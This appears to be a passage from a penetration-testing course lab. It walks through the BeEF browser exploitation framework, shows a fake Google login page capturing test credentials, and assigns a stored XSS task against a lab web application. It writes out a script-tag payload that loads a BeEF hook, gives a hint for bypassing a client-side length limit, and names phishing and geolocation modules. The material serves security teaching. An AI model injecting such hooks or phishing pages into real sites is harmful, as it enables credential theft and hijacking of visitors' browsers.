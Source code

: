 wd_hw16

After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.

wd_hw17

To launch the exploit, select Execute in the bottom right corner.

After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.

A victim could easily mistake this for a real login prompt.

Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page.

Username: hackeruser

Password: hackerpass

wd_hw18

Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.

wd_hw19

Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.

Hint: Try right-clicking and selecting "Inspecting the Element".
Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:

Social Engineering >> Pretty Theft

Social Engineering >> Fake Notification Bar

Host >> Get Geolocation (Third Party)
